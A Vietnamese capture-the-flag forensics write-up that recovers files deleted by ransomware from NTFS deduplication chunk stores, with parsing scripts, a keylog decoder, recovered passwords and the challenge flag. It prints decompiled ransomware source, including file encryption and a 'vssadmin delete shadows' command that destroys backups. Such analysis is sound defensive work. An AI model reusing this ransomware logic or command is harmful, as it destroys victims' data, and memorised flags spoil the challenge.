# WRITE UP #
## STAY HYDRATED ##

### 1. Phân tích bằng chứng ###

#### Phân tích ban đầu ####
Giải nén file zip đề bài cho, ta có 1 ổ đĩa `.vhdx` và 1 ảnh EWF của ổ dữ liệu `.E01`.



Mình sử dụng FTK Imager để phân tích nội dung của 2 file này:





Đào sâu vào ảnh của ổ dữ liệu `D.E01`, mình thấy 1 file thực thi `.exe` đáng nghi ở `[root]\main.exe`:



Đồng thời, rất nhiều file trên ổ đĩa xuất hiện theo cặp:

```text
resume.pdf
resume.pdf.enc

Tax.7z
Tax.7z.enc

opensourcepos.7z
opensourcepos.7z.enc
```

Quan sát nhanh cho thấy bản `.enc` thường lớn hơn file gốc 256 byte. Từ đây mình có thể đưa ra giả thuyết:

1. Nội dung file bị mã hóa bằng khóa đối xứng.
2. Khóa đối xứng hoặc dữ liệu liên quan được bọc bằng RSA-2048.
3. Phần blob 256 byte được append vào cuối file `.enc`.



#### Wiper's Logic ####

Trích xuất file `main.exe`, bằng [VirusTotal](www.virustotal.com) và `Detect it Easy`, mình phát hiện đây chính là file thực thi đã xóa dữ liệu (wiper) mà đề bài đề cập.





Do là 1 file thực thi được đóng gói bằng PyInstaller, mình có thể sử dụng công cụ [này](https://github.com/zrax/pycdc) để dịch lại code ban đầu:




```py
# Source Generated with Decompyle++
# File: main.pyc (Python 3.11)

from Crypto.PublicKey import RSA
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.Util import Counter
import argparse
import os
import sys
import base64
import subprocess

def discoverFiles(startpath):
Unsupported opcode: RETURN_GENERATOR (109)
    pass
# WARNING: Decompyle incomplete


def modify_file_inplace(filename, crypto, blocksize = (16,)):
Unsupported opcode: POP_JUMP_BACKWARD_IF_TRUE (235)
    f = open(filename, 'r+b')
    plaintext = f.read(blocksize)
# WARNING: Decompyle incomplete

AES_KEY = os.urandom(32)
SERVER_PUBLIC_RSA_KEY = '-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAqH8e7yL04ioy7lHiE/Jo\nVdyt2HQ6WsiRZu+WPu9h/Q4qK55T/p7X37SPhumD4uQVM8DyZstrIDr9t0qfQ3tv\nyhKupFTRkWgE8PjCj/ypQseKLmWhv75Cf7Eh6C/9UCT85blmd9yk6XrYrf6Zs42t\nBU6CTFWpnIGQqouzcDeS0hTrsfXpdTyEnoITwnCkXdHa4NjE4Eb8iiIcW7/Kj4Hv\nes7HBmifCfpKPMorVFk0NC2Q9Inm4sE16xVYBXP1BIIdZnkS7jogjJ+BU8q5TTnY\nejjEzUrpVRteXjEVXLOgHIqwkVMu94FSpvbPnn79HAnoSek9i0PvYf6e5gGB5LPr\nUQIDAQAB\n-----END PUBLIC KEY-----'
extension = '.enc'

def parse_args():
    parser = argparse.ArgumentParser(description = 'Ransomware')
    return parser.parse_args()


def main():
Warning: Stack history is not empty!
Warning: block stack is not empty!

    try:
        args = parse_args()
        startdirs = [
            os.getcwd()]
        server_key = RSA.importKey(SERVER_PUBLIC_RSA_KEY)
        encryptor = PKCS1_OAEP.new(server_key)
        encrypted_key = encryptor.encrypt(AES_KEY)
        encrypted_key_b64 = base64.b64encode(encrypted_key).decode('ascii')
        print('Encrypted key ' + encrypted_key_b64 + '\n')
        key = AES_KEY
        ctr = Counter.new(128)
        crypt = AES.new(key, AES.MODE_CTR, counter = ctr)
        original_files = []
        for currentDir in startdirs:
            for file in discoverFiles(currentDir):
                if not file.endswith(extension):
                    f = open(file, 'rb')
                    plaintext = f.read()
                    None(None, None)
                else:
                    with None:
                        if not None:
                            pass
                ciphertext = crypt.encrypt(plaintext)
                f = open(file + extension, 'wb')
                f.write(ciphertext)
                f.write(encrypted_key)
                None(None, None)
            with None:
                if not None:
                    pass
            original_files.append(file)
            print('File encrypted: ' + file + ' -> ' + file + extension)

            try:
                continue
                except Exception:
                    e = None
                    print(f'''Failed to encrypt {file}: {str(e)}''')

                    try:
                        e = None
                        del e
                        continue
                        e = None
                        del e

                        try:
                            continue
                            continue

                            try:
                                for orig_file in original_files:
                                    os.remove(orig_file)
                                    print('Original file deleted: ' + orig_file)

                                    try:
                                        continue
                                        except (OSError, PermissionError):
                                            e = None
                                            print(f'''Failed to delete {orig_file}: {str(e)} - Skipping.''')

                                            try:
                                                e = None
                                                del e
                                                continue
                                                e = None
                                                del e

                                                try:

                                                    try:
                                                        pass
                                                    except Exception:
                                                        e = None
                                                        print(f'''Unexpected error during file deletion: {str(e)}''')

                                                        try:
                                                            e = None
                                                            del e
                                                        e = None
                                                        del e
                                                        try:

                                                            try:
                                                                subprocess.run([
                                                                    'vssadmin',
                                                                    'delete',
                                                                    'shadows',
                                                                    '/all',
                                                                    '/quiet'], check = True)

                                                                try:
                                                                    pass
                                                                except subprocess.CalledProcessError:

                                                                    try:
                                                                        pass
                                                                    try:
                                                                        pass
                                                                    except Exception:
                                                                        e = None
                                                                        print(f'''Error: {str(e)}''')
                                                                        sys.exit(1)
                                                                        e = None
                                                                        del e
                                                                    except:
                                                                        e = None
                                                                        del e

                                                                    for _ in range(100):
                                                                        return None

if __name__ == '__main__':
    main()
    return None
```

Logic của mã độc này như sau:
1. Sinh một khóa AES cho cả phiên;
2. Dùng cùng blob RSA ở cuối mọi file `.enc`;
3. Mã hóa các file theo danh sách extension định sẵn;
4. Gọi `os.remove()` để xóa file gốc.

Tuy nhiên, do chúng ta không có khóa bí mật RSA, nên hướng giải mã các file bị mã hóa là không khả thi.

#### NTFS Data Deduplication ####

Khi tiếp tục rà soát cây thư mục của `D.E01`, có một nhóm file rất khác thường dưới:

```text
System Volume Information\Dedup\ChunkStore\{GUID}.ddp\
```




Các file đáng chú ý gồm:

```text
Data\00000001.00000001.ccc
Data\00000002.00000001.ccc
Data\00000003.00010000.ccc
Data\00000004.00010000.ccc
Stream\00010000.00000003.ccc
Stream\00020000.00000002.ccc
```

Đây chính là dấu hiệu cho thấy volume đã bật **NTFS Data Deduplication**. Trước khi đi tiếp hãy cùng tìm hiểu về **NTFS Dedup**:

Với file bị xóa thông thường trên NTFS, `os.remove()` không lập tức xóa sạch nội dung file khỏi đĩa. Windows chủ yếu làm các việc sau:

1. Đánh dấu MFT record của file là không còn in-use.
2. Gỡ tên file khỏi index của thư mục cha.
3. Đánh dấu các cluster từng thuộc `$DATA` là free trong bitmap của volume.
4. Nội dung cũ chỉ thật sự mất khi cluster đó bị ghi đè.

Vì vậy với file thường, hướng khôi phục quen thuộc là tìm bản ghi MFT đã xóa, lấy lại runlist của `$DATA`, rồi khôi phục nếu vùng dữ liệu chưa bị ghi đè:


```mermaid
flowchart TD
    classDef active fill:#e3f2fd,stroke:#1565c0,stroke-width:2px,color:#000
    classDef process fill:#f5f5f5,stroke:#616161,stroke-width:2px,color:#000
    classDef metadata fill:#f3e5f5,stroke:#7b1fa2,stroke-width:2px,color:#000
    classDef intact fill:#e8f5e9,stroke:#2e7d32,stroke-width:2px,color:#000
    classDef dead fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000
    classDef note fill:#fffde7,stroke:#fbc02d,stroke-width:2px,stroke-dasharray:5 5,color:#000

    Start([Tệp tin đang hoạt động - Allocated])
    Trigger[User gọi DeleteFile / os.remove]
    Start --> Trigger
    Trigger --> Check

    subgraph Phase1 [Kiểm tra Handle]
        direction TB
        Check{Còn Handle mở?}
        Pending[Đánh dấu DeletePending]
        Wait[Chờ đóng Handle cuối]
        Proceed[Tiến hành Xóa]
        Check -->|Có| Pending
        Pending --> Wait
        Wait --> Proceed
        Check -->|Không| Proceed
    end

    Proceed --> M1

    subgraph Phase2 [Xóa Logic & Cập nhật Metadata]
        direction TB
        M1[Gỡ khỏi thư mục cha - Cập nhật Index]:::metadata --> M2[Clear cờ IN_USE trong MFT]:::metadata
        M2 --> M3[Đánh dấu Cluster thành Free trong $Bitmap]:::metadata
    end

    M3 --> P1

    subgraph Phase3 [Trạng thái Vật lý trên Disk]
        direction TB
        P1[Dữ liệu cũ còn nguyên - Orphaned Bytes]:::intact
        P2[Dữ liệu bị ghi đè - Overwritten]:::dead
        P1 -->|Disk cấp phát lại cluster cho file mới| P2
    end

    N1[["Khôi phục thành công:
    - Tool đọc Deleted MFT Record
    - Parse lại $DATA runlist
    - Trích xuất cluster cũ"]]:::note
    N2[["Không thể khôi phục:
    - Dữ liệu vật lý đã mất
    - Undelete vô dụng"]]:::note

    P1 -.-> N1
    P2 -.-> N2
```

Nhưng với NTFS Dedup, file logic không còn giữ nguyên content trong `$DATA`. Thay vào đó:

1. File được cắt thành các chunk.
2. Chunk được lưu một lần trong `Data\*.ccc`.
3. Thứ tự chunk của từng file được mô tả trong `Stream\*.ccc`.
4. File trên NTFS chỉ còn một **dedup reparse point** trỏ về metadata của Data Deduplication.

Hệ quả là:

1. Attacker gọi `os.remove()` thì file logic bị xóa khỏi namespace, nhưng chunk data thật vẫn có thể còn nguyên trong ChunkStore.
2. MFT record đã xóa vẫn có thể giữ dấu vết `$REPARSE_POINT`.
3. Nếu còn đủ reparse metadata, stream map và chunk container, hoàn toàn có thể dựng lại file.

Đây là insight quan trọng nhất của challenge.



#### Rehydrate + Mục tiêu cuối cùng ####
Vậy mục tiêu tiếp theo của chúng ta bây giờ là tìm cách khôi phục các file bị xóa này. Bước khôi phục lại này gọi là rehydrate, để dễ theo dõi mình chia ra làm các bước như sau:

**Bước 1: Tìm file nào là Dedup reparse point**

Đầu tiên, như đã nói ở trên, mình cần xác định những file có attribute `$REPARSE_POINT` dựa vào bài báo [này](https://flatcap.github.io/linux-ntfs/ntfs/attributes/), giá trị của nó là `0xC0`, rồi lấy 4 byte đầu của reparse payload để đối chiếu với `IO_REPARSE_TAG_DEDUP`, dựa vào tài liệu [Reparse Tags](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-fscc/c8e77b37-3909-4fe6-a4ea-2b9d423b1ee4), mình biết giá trị của nó là `0x80000013`:

```py
from dissect.ntfs.mft import Mft


MFT_FILE = "$MFT"
IO_REPARSE_TAG_DEDUP = 0x80000013


def record_size(rec):
    size = getattr(rec, "size", "-")
    if callable(size):
        try:
            size = size()
        except TypeError:
            size = "-"
    return size


print(f"{'MFT':>6} {'SIZE':>10} {'TAG/TYPE':>14} FILE")
print("-" * 70)
with open(MFT_FILE, "rb") as file:
    mft = Mft(file)

    for rec in mft.segments():
        if not rec.filename:
            continue
        if 192 not in rec.attributes:
            continue

        rp = rec.attributes[192][0]
        try:
            data = rp.value
        except Exception:
            data = b""
        if data is None:
            data = b""

        if len(data) >= 4:
            tag = int.from_bytes(data[:4], "little")
            if tag != IO_REPARSE_TAG_DEDUP:
                continue
            print(f"{rec.segment:>6} {record_size(rec):>10} 0x{tag:08x} {rec.filename}")
            continue

        print(f"{rec.segment:>6} {record_size(rec):>10} {'non-resident':>14} {rec.filename}")
```



Script này quét toàn bộ `$MFT`, record nào có `$REPARSE_POINT` thì in ra. Nếu payload resident thì script đối chiếu trực tiếp với `0x80000013`; nếu payload non-resident thì mình xem đây là candidate Dedup reparse point. Sau một hồi xem xét những file có tag Reparse Point, mình phát hiện 2 file nén `.7z`, có cùng tên nhưng `size` và `MFT_record` lại khác nhau:

```text
161      240726   non-resident StarlineTicketing_Release_1.0.0.7z
5104     243588   non-resident StarlineTicketing_Release_1.0.0.7z
```

Mình đối chiếu chéo với ổ đĩa ban đầu, 2 file này nằm ở thư mục `Projects/01_Active/Starline_Concert_Ticketing_Portal`:



Cũng ở thư mục này, mình phát hiện có rất nhiều file `.env` còn nguyên, chưa bị xóa ở ổ ban đầu, những file `.env` này chứa các giá trị như đáng lưu ý như `ADMIN_KEY`: 

```text
04_Development/Config/.env.uat
04_Development/Config/.env.production
04_Development/Source/StarlineTicketingPortal/.env
04_Development/Source/Client_StarlineTalent_ConcertTickets/Client_StarlineTalent_ConcertTickets/.env
```



Từ đây mình chuyển sang hướng cố gắng khôi phục 2 file nén này.

**Bước 2: Sử dụng logical size để tìm Stream Map**

Sau khi biết bản ghi cần khôi phục, mình lấy logical size của 2 files đó, size tương ứng là `240726` và `243588` bytes. Size này giúp chúng ta tìm đúng `Stream map` trong `Stream\*.ccc`:

> `Stream map`: là cấu trúc metadata trong `Stream` dùng để map một file logic sang danh sách chunk trong ChunkStore. Với một file dedup, Windows dựa vào stream map để biết file gồm những chunk nào, thứ tự ghép ra sao, mỗi chunk có kích thước bao nhiêu và hash nào để xác thực chunk trong `Data`.

Do không có nhiều nguồn tài liệu sẵn có trên Internet, nhờ sự trợ giúp của AI, mình tìm hiểu được cấu trúc của 1 `Stream map` đầy đủ, hợp lệ cho 1 file như sau:

```c
 struct StreamMap {
      struct StreamHeader header;
      struct StreamRecord records[];
  };

  struct StreamHeader {                       // 24 byte
      char     magic[4];                      // "Smap" = 53 6d 61 70
      uint32_t metadata_0;                    // metadata
      uint32_t metadata_1;                    // metadata
      uint32_t flags;                         // flags/metadata
      uint32_t first_chunk_offset;            // offset byte của Ckhr thuộc chunk đầu tiên trong Data/*.ccc
      uint32_t first_container;               // container chứa chunk đầu tiên
  };

struct StreamRecord {                         // Mỗi bản ghi có 64 byte
      uint64_t cumulative_end_offset;         // Tổng kích thước logic của các chunk sau khi giải nén tới thời điểm này
      uint8_t  chunk_sha256[32];              // SHA-256 của phần dữ liệu file nằm trong chunk đó sau khi giải nén
      uint64_t stored_size_in_container;      // Số byte chunk chiếm trong file .ccc
                                              // tức kích thước logic nếu chunk không bị nén,
                                              // ngược lại là kích thước sau nén
      uint32_t record_id;                     // ID tăng dần, khớp với Ckhr.record_id
      uint32_t next_container;                // Container chứa chunk tiếp theo
      uint32_t next_chunk_offset;             // Offset byte của Ckhr thuộc chunk tiếp theo trong container
      uint32_t flags;
  };
```

Bên cạnh đó, `StreamMap` của một file được xác định bằng cách đọc lần lượt các `StreamRecord` cho tới record mà
`cumulative_end_offset` đạt đúng logical size của file. Record cuối này vẫn chứa đầy đủ các trường cần thiết để khôi phục chunk cuối, gồm `chunk_sha256` và `stored_size_in_container`. 

Sau khi biết cấu trúc của `StreamMap`, mình sử dụng script này để tìm đúng vị trí `Smap` của 2 files mình cần khôi phục:

```py
import os
import struct


CHUNKSTORE = "./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp"
STREAM_DIR = os.path.join(CHUNKSTORE, "Stream")
TARGET_SIZES = [240726, 243588]
REC_SIZE = 64


def walk_smap(data, first_rec_off, target_size):
    off = first_rec_off
    prev_cum = 0

    while off + REC_SIZE <= len(data):
        rec = data[off:off + REC_SIZE]
        cum = struct.unpack("<Q", rec[0:8])[0]
        stored_size = struct.unpack("<Q", rec[40:48])[0]

        if cum <= prev_cum or cum > target_size or stored_size == 0:
            return False

        prev_cum = cum
        if cum == target_size:
            return True
        off += REC_SIZE

    return False


for target_size in TARGET_SIZES:
    print(f"[SIZE] {target_size}")
    count = 0

    for name in os.listdir(STREAM_DIR):
        if not name.endswith(".ccc") or "delete" in name:
            continue

        path = os.path.join(STREAM_DIR, name)
        with open(path, "rb") as f:
            data = f.read()

        off = 0
        while True:
            smap_off = data.find(b"Smap", off)
            if smap_off < 0:
                break
            off = smap_off + 1
            if smap_off + 24 > len(data):
                continue

            if not walk_smap(data, smap_off + 24, target_size):
                continue

            count += 1
            print(f"[STREAM] {path}")
            print(f"[SMAP]   0x{smap_off:x}")
    print()

```

Output:

```text
[SIZE] 240726
[STREAM] ./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp/Stream/00020000.00000002.ccc
[SMAP]   0x3d118

[SIZE] 243588
[STREAM] ./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp/Stream/00020000.00000002.ccc
[SMAP]   0x3af18
```
* *Note: Từ đây mình sẽ chỉ tập trung vào bản ghi có size 243588 vì quá trình lấy lại 2 file này là như nhau*
 
Mình tìm đến đúng vị trí của bản ghi trong file `Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp/Stream/00020000.00000002.ccc` trong `FTK Imager` và đọc được như sau:



Các thông tin quan trọng mà mình tìm được:

```text
rec0:
  - cumulative_end_offset = 122773
  - logical_chunk_size    = 122773
  - stored_size           = 122773
  - hash                  = 08c56329d07278ee2e8665f527f82431ef911dd8f9d2af40b1a420e25fbc6f5d
  - current chunk         = container 0x10000, offset 0x8bc468
  - next chunk            = container 0x4, offset 0x8da458

  rec1:
  - cumulative_end_offset = 243236
  - logical_chunk_size    = 120463
  - stored_size           = 120463
  - hash                  = 5ad1070f5c9018b7caf6ce6d2c398ce55924299092326660b6f1352d12d8a90c
  - current chunk         = container 0x4, offset 0x8da458
  - next chunk            = container 0x4, offset 0x8f7b40

  rec2:
  - cumulative_end_offset = 243588
  - logical_chunk_size    = 352
  - stored_size           = 352
  - hash                  = e92fb6be037b83ba8cb2706181ed8705de9f2c82e8c6962b47e2e43f66c576ab
  - current chunk         = container 0x4, offset 0x8f7b40
  - next chunk            = end / không dùng tiếp
```

**Bước 3: Rehydrate**
Với các dữ liệu ở trên, mình bắt tay vào việc khôi phục file, trước hết cần xác định xem file nén đó đang ở đâu.

Nhờ vào sự trợ giúp của AI, mình biết được cấu trúc của 1 chunk trong `Data\*.ccc`:

```c
struct CkhrChunk {
    char     magic[4];         // "Ckhr" = 43 6B 68 72
    uint8_t  version[4];       // version
    uint32_t record_id;        // khớp với record_id trong StreamRecord
    uint32_t stored_size;      // khớp với stored_size_in_container trong Smap
    uint8_t  metadata[24];     // metadata/flags/reserved
    uint8_t  sha256[32];       // khớp với chunk_sha256 trong Smap
    uint8_t  preamble[16];     // không phải nội dung file
    uint8_t  data[stored_size];// dữ liệu chunk
};
```

Từ đây, mình có thể sử dụng các thông số như `hash`, `offset` để quét toàn bộ thư mục `Data` để tìm file `.ccc` lưu dữ liệu của file nén chúng ta cần tìm, rồi sau đó dump file đó bằng cách nối các bản ghi theo thứ tự, tự động giải nén nếu `stored_size` nhỏ hơn `logical_size`:

```py
import os

from dissect.util.compression import lzxpress, lzxpress_huffman

CHUNKSTORE = "./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp"
DATA_DIR = os.path.join(CHUNKSTORE, "Data")
CKHR_HEADER_SIZE = 72
CHUNK_PREAMBLE_SIZE = 16
OUT_FILE = "StarlineTicketing_Release_1.0.0.7z"

CHUNKS = [
    {
        "name": "rec0",
        "container": 0x10000,
        "offset": 0x8BC468,
        "stored_size": 122773,
        "logical_size": 122773,
        "hash": "08c56329d07278ee2e8665f527f82431ef911dd8f9d2af40b1a420e25fbc6f5d",
    },
    {
        "name": "rec1",
        "container": 0x4,
        "offset": 0x8DA458,
        "stored_size": 120463,
        "logical_size": 120463,
        "hash": "5ad1070f5c9018b7caf6ce6d2c398ce55924299092326660b6f1352d12d8a90c",
    },
    {
        "name": "rec2",
        "container": 0x4,
        "offset": 0x8F7B40,
        "stored_size": 352,
        "logical_size": 352,
        "hash": "e92fb6be037b83ba8cb2706181ed8705de9f2c82e8c6962b47e2e43f66c576ab",
    },
]


def container_paths(container):
    paths = []
    for name in os.listdir(DATA_DIR):
        if not name.endswith(".ccc") or "delete" in name:
            continue

        parts = name.split(".")
        try:
            n1, n2 = int(parts[0], 16), int(parts[1], 16)
        except ValueError:
            continue

        if container in (n1, n2):
            paths.append(os.path.join(DATA_DIR, name))
    return paths


def maybe_decompress(data, expected_size):
    if len(data) == expected_size:
        return data

    for decompress in (lzxpress.decompress, lzxpress_huffman.decompress):
        try:
            out = decompress(data)
        except Exception:
            continue
        if len(out) == expected_size:
            return out

    raise RuntimeError(f"Cannot decompress chunk: stored={len(data)} logical={expected_size}")


def read_chunk(chunk):
    expected_hash = bytes.fromhex(chunk["hash"])

    for path in container_paths(chunk["container"]):
        with open(path, "rb") as f:
            f.seek(chunk["offset"])
            hdr = f.read(CKHR_HEADER_SIZE)

        if len(hdr) < CKHR_HEADER_SIZE:
            continue

        magic = hdr[:4]
        found_hash = hdr[40:72]
        ok = magic == b"Ckhr" and found_hash == expected_hash

        if ok:
            print(f"[{chunk['name']}] {path}")
            with open(path, "rb") as f:
                f.seek(chunk["offset"] + CKHR_HEADER_SIZE + CHUNK_PREAMBLE_SIZE)
                data = f.read(chunk["stored_size"])

            return maybe_decompress(data, chunk["logical_size"])

    raise RuntimeError(f"Chunk not found: {chunk['name']}")


recovered = bytearray()

for chunk in CHUNKS:
    recovered.extend(read_chunk(chunk))

with open(OUT_FILE, "wb") as f:
    f.write(recovered)

print(f"Output saved to: {OUT_FILE}")
```

Output:



```text
[rec0] ./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp\Data\00000004.00010000.ccc
[rec1] ./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp\Data\00000004.00010000.ccc
[rec2] ./Dedup/ChunkStore/{77F962D7-1532-4DCD-8EC9-224C8B17741F}.ddp\Data\00000004.00010000.ccc
Output saved to: StarlineTicketing_Release_1.0.0.7z
```

Sau khi có `StarlineTicketing_Release_1.0.0.7z`, mình nhận thấy nội dung bên trong thì bị khóa bởi `7zAES`, tuy nhiên có thể đọc được header bằng `7z l`, và còn lộ cả việc bên trong có file `.env`:



Đến đây, mình chuyển sang hướng tìm password để mở thử file `.7z` này.

#### Process Lasso giả dạng ####

Trong cây thư mục mình ở ổ đĩa ban đầu, ở:

```text
Tool/Process Lasso
```

Mình thấy có nhiều file `.dat` giả dạng dữ liệu Process Lasso, nhưng thực chất là keylog:

* **Process Lasso:** một phần mềm tiện ích Windows. Chức năng chính của nó là tự động hóa và quản lý hiệu năng hệ thống (CPU/RAM). Phần mềm này trong quá trình hoạt động sinh ra rất nhiều file log định dạng `.dat` để ghi nhận trạng thái hệ thống. 
 
* Từ đây, kẻ tấn công đã sử dụng một thủ đoạn ngụy trang tinh vi: cấu hình keylogger xuất dữ liệu ra các file `.dat` và ném thẳng vào thư mục của Process Lasso
 


Có tổng cộng 5 file `.dat`, tuy nhiên có 2 file là `dev01.dat` và `dev02.dat` là không thể đọc được nội dung.

Trước tiên, mình dựng 1 script python để lọc lấy nội dung của phím bấm:

```py
import os
import glob


def parse_keylog(file_path):
    parsed_text = ""
    
    with open(file_path, "r", encoding="utf-8") as f:
        for line in f:
            if "pressed" in line:
                try:
                    # Cắt chuỗi lấy phần "o" hoặc "Key.enter"
                    key_part = line.split(", ")[1].split(" pressed")[0]
                    key_part = key_part.strip("'\"")
                    
                    # Xử lý các phím đặc biệt (bắt đầu bằng Key.)
                    if key_part.startswith("Key."):
                        key_name = key_part.replace("Key.", "")
                        
                        if key_name == "space":
                            parsed_text += " "
                        elif key_name == "enter":
                            parsed_text += "\n"
                        elif key_name == "backspace":
                            parsed_text = parsed_text[:-1]
                        elif key_name == "tab":
                            parsed_text += " [TAB] "
                        elif "alt" in key_name:
                            parsed_text += "\n[ALT]\n"
                        elif "ctrl" in key_name:
                            parsed_text += " [CTRL] "
                        elif "cmd" in key_name:
                            parsed_text += " [WIN] "
                        elif "shift" in key_name or "caps_lock" in key_name:
                            pass
                        else:
                            parsed_text += f" [{key_name.upper()}] "
                    else:
                        parsed_text += key_part
                        
                except Exception as e:
                    continue

    return parsed_text

if __name__ == "__main__":
    search_pattern = "./*.dat"
    dat_files = glob.glob(search_pattern)
    
    print("[*] Parsing data:")

    for file_path in dat_files:
            file_name = os.path.basename(file_path)
            print(f"Result from: {file_name}")
            result = parse_keylog(file_path)
            print(result)
```

Với 3 file còn đọc được nội dung là `hr01.dat`, `qa01.dat`, `it01.dat`, mình có thể copy nội dung của chúng và chạy thử, tuy nhiên kết quả không quá xuất sắc:



Vậy nên mình tiếp tục sử dụng phương pháp `rehydrate` lúc nãy để lấy về 2 file `dev01.dat` và `dev02.dat`:



Lần này kết quả có vẻ thú vị hơn:



#### Keepass ####

Ngữ cảnh `keepass` cho thấy `ED6zY3HDy1CLR` không phải mật khẩu của archive, mà là master password cho KeePass.

Mình đối chiếu lại với cây thư mục của `D.E01`, trong thư mục `Password Mangager` có rất nhiều file `.kdbx`, sau khi thử qua các file, đây là mật khẩu của `Dev.kdbx`:



Trong file này, mình thấy 1 entry:



```text
Title: Starline
Password: cydbF8oGVU2dgXAamqFD
```

Đây chính là mật khẩu để mở khóa file zip chúng ta đã nhắc đến ở trên:

```bash
7z x StarlineTicketing_Release_1.0.0.7z -o"./test" -pcydbF8oGVU2dgXAamqFD
```

Sử dụng lệnh `cat` để kiểm tra file `.env` của dự án này, nó cung cấp cho ta part 2 của flag: 



Trong khi đó, nếu làm lại với bản ghi `StarlineTicketing_Release_1.0.0.7z` còn lại có size là `240726`, `.env` của nó chính là full flag:



### 2. Flag ###
* Flag của thử thách là: `HTB{d4t@_d3dupl1c4t10n_1s_sup3r_und3rRat3d}`.

